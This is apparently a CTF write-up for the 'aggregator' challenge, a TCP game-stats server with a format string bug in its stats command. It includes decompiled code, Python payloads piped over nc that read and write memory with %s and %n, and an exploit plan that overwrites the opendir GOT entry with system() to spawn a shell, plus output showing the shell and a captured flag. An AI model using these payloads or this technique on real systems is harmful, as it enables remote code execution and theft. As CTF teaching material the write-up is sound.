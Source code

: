 # vuln200: aggregator

##Specimen:

```
$ file aggregator
aggregator: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, stripped

$ execstack aggregator
- aggregator

```

The binary is a typical forking tcp server.  It displays statistics compiled from video game log files found in child directories of the working directory.

It has four commands:

```
> help
Available commands:
help	-- show this message
quit	-- quit
rating	-- show player rating
summary <player_name>	-- show the main stats of the player
stats <player_name>	-- show all the stats of the player
```

## Vulnerability:

The stats command has a string formatting vulnerability

```
> stats %d:%d:%d:%d:%d:%d:%d:%d:%d:%d
name:	%d:%d:%d:%d:%d:%d:%d:%d:%d:%d
total kills:	0
total deaths:	0
kills to deaths:	0.000000
total playing time:	0.000000 hours
kill top:
0:0:0:0:0:0:0:0:624583717:1680161380




killed by top:
0:0:0:0:0:0:0:0:624583717:1680161380



```

The function `show_stats()` (address `0x0804A361`) supplies user input indirectly into the format parameter of `vsnprintf()`.

```
int __cdecl show_stats(int fd, int a2, int a3, const char *s1)
{
  int result; // eax@4                                                                 
  int v5; // [sp+24h] [bp-184h]@1                                                      
  char dest[32]; // [sp+28h] [bp-180h]@1                                               
  char v7[4]; // [sp+48h] [bp-160h]@1                                                  
  char v8[4]; // [sp+4Ch] [bp-15Ch]@1                                                  
  float v9; // [sp+50h] [bp-158h]@1                                                    
  int v10; // [sp+54h] [bp-154h]@1                                                     
  void *ratings; // [sp+198h] [bp-10h]@1                                               
  int i; // [sp+19Ch] [bp-Ch]@1                                                        

  ratings = get_ratings(a2, a3, (int)&v5);
  sub_8049BA9((int)ratings, v5, s1, dest);
  send_stringf(fd, "name:\t%s\n", dest);
  send_stringf(fd, "total kills:\t%d\n", *(_DWORD *)v7);
  send_stringf(fd, "total deaths:\t%d\n", *(_DWORD *)v8);
  send_stringf(fd, "kills to deaths:\t%f\n", v9);
  send_stringf(fd, "total playing time:\t%f hours\n", (long double)v10 / 3600.0);
  send_stringf(fd, "kill top:\n");
  for ( i = 0; i <= 4; ++i )
  {
    send_stringf(fd, &dest[32 * i + 48]);       // this line is vulnerable
    send_stringf(fd, "\n");
  }
  result = send_stringf(fd, "killed by top:\n");
  for ( i = 0; i <= 4; ++i )
  {
    send_stringf(fd, &dest[32 * i + 208]);      // this line is vulnerable

    result = send_stringf(fd, "\n");
  }
  return result;
}


int send_stringf(int fd, char *format, ...)
{
  size_t v3; // eax@3                                                                  
  char buf[2048]; // [sp+1Ch] [bp-80Ch]@1                                              
  __gnuc_va_list arg; // [sp+81Ch] [bp-Ch]@1                                           
  va_list va; // [sp+838h] [bp+10h]@1                                                  

  va_start(va, format);
  arg = va;
  if ( vsnprintf(buf, 2048u, format, va) > 2000 )
    truncateMessage(buf);
  v3 = strlen(buf);
  return write(fd, buf, v3);
}

```

It's possible to read values from readable memory regions through the `%s` format specifier.  In this example, the address `0x0804AAAA` is the address of the c string "player".

```
$ cat read.py
#!/usr/bin/python
print "stats \xAA\xAA\x04\x08%9$s"

$ ./read.py | nc ubuntu32vm 16711
> name:	�%9$s
total kills:	0
total deaths:	0
kills to deaths:	0.000000
total playing time:	0.000000 hours
kill top:
�player




killed by top:
�player




>

```

It's also possible to write small (< 2000) 32-bit integer values to writable memory regions using the `%n` format specifier.  In this example the value 65 is written to address `0x0804C3E1`.

```
$ cat write.py
#!/usr/bin/python
print "stats \xE1\xC3\x04\x08%61d%9$n"

$ ./write.py | nc ubuntu32vm 16711
> name:	�%61d%9$n
total kills:	0
total deaths:	0
kills to deaths:	0.000000
total playing time:	0.000000 hours
kill top:
�                                                            0




killed by top:
�                                                            0




>


```

By issueing multiple writes at increasing addresses it is possible to write values greater than 2000 to memory.

This example shows what memory looks like when writing the value 0xAABBCCDD to address 0x0000:

* memory before writes:
* * `00000: FF FF FF FF  FF FF FF FF`
* write value 0xDD to address 0x0
* * `00000: DD 00 00 00  FF FF FF FF`
* write value 0xCC to address 0x1
* * `00000: DD CC 00 00  00 FF FF FF`
* write value 0xBB to address 0x2
* * `00000: DD CC BB 00  00 00 FF FF`
* write value 0xAA to address 0x3
* * `00000: DD CC BB AA  00 00 00 FF`



## Exploit

The exploit works by overwriting the `opendir()` record in the GOT with the address of `system()`, then triggering a call to `opendir()` that uses a buffer that can be controlled as the parameter.

Steps to exploit:

1. Disable calls to `opendir()` by writing the value `0` to address `0x0804C4E0`
2. Write the bash command string `"sh 1>&4 0<&4"` to the address `0x0804C3E0`.  This is the buffer that will be passed to `system()` through a call to `opendir()`.
3. Read the `opendir()` record from the GOT, to calculate the address of `system()`
4. Overwrite the `opendir()` record in the GOT with the address of `system()`
5. Enable the call to `opendir()` by writing the value `1` to the address `0x0804C4E0`
6. Trigger the call to `opendir()` by using the command `stats %d`



## Action shot

```
./exploit.py
set count to 0
write shellcode string
find libc base
overwrite opendir got entry with address of system() in libc
Address of system(): 0xF7548A70
set count to 1
TRIGGERING EXPLOIT
INTERACTIVE MODE:

uname -a
Linux vuln1 3.13.5-1-ARCH #1 SMP PREEMPT Sun Feb 23 00:25:24 CET 2014 x86_64 GNU/Linux

cat /proc/version
Linux version 3.13.5-1-ARCH (nobody@var-lib-archbuild-extra-x86_64-thomas) (gcc version 4.8.2 20140206 (prerelease) (GCC) ) #1 SMP PREEMPT Sun Feb 23 00:25:24 CET 2014


ls -alF
total 32
dr-x------ 4 aggregator aggregator  4096 Mar  8 16:43 ./
dr-xr-xr-x 5 root       root        4096 Mar  8 19:26 ../
-r-x------ 1 aggregator aggregator 14948 Mar  8 16:43 aggregator*
dr-x------ 2 aggregator aggregator  4096 Mar  8 16:43 ctf/
dr-x------ 2 aggregator aggregator  4096 Mar  8 16:43 sniperserver/

ls -alF ctf
total 24
dr-x------ 2 aggregator aggregator  4096 Mar  8 16:43 ./
dr-x------ 4 aggregator aggregator  4096 Mar  8 16:43 ../
-r-------- 1 aggregator aggregator 14103 Mar  8 16:43 Real.ngLog.2012.07.42.42.42.24.7777.log

cat ctf/Real.ngLog.2012.07.42.42.42.24.7777.log | grep RUCTF_
0.59    player  Connect RUCTF_5b75086a  0   False
```




